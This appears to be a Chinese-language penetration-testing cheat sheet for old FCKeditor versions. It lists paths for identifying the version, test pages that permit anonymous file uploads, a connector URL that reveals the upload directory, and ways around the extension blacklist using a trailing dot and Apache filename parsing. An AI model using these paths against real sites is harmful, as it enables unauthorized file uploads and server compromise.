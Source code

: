 ### FCKeditor 查看编辑器版本

```
FCKeditor/_whatsnew.html
```

FCKeditor V2.43 版本

```
FCKeditor/editor/filemanager/browser/default/connectors/php/config.php
```

FCKeditor V2.6.6版本

```
FCKeditor/editor/filemanager/connectors/asp/config.php
```

### FCKeditor 匿名上传文件

影响版本:非优化/精简版本的FCKeditor
脆弱描述：
如果存在以下文件，打开后即可上传文件。
攻击利用:

```
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html
```

### FCKeditor 查看文件上传路径

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
```

XML页面中第二行 `url=/xxx`的部分就是默认基准上传路径

Note:
[Hell1]截至2010年02月15日最新版本为FCKeditor v2.6.6
[Hell2]记得修改其中两处asp为FCKeditor实际使用的脚本语言

### FCKeditor被动限制策略所导致的过滤不严问题

影响版本: FCKeditor x.x <= FCKeditor v2.4.3
脆弱描述：
FCKeditor v2.4.3中File类别默认拒绝上传类型：html|htm|php|php2|php3|php4|php5|phtml|pwml|inc|asp|aspx|ascx|jsp|cfm|cfc|
pl|bat|exe|com|dll|vbs|js|reg|cgi|htaccess|asis|sh|shtml|shtm|phtm

Fckeditor 2.0 <= 2.2允许上传asa、cer、php2、php4、inc、pwml、pht后缀的文件
上传后 它保存的文件直接用的$sFilePath = $sServerDir . $sFileName，而没有使用$sExtension为后缀。直接导致在win下在上传文件后面加个`.`来突破[未测试]。而在apache下，因为”Apache文件名解析缺陷漏洞”也可以利用之，详见”附录A”
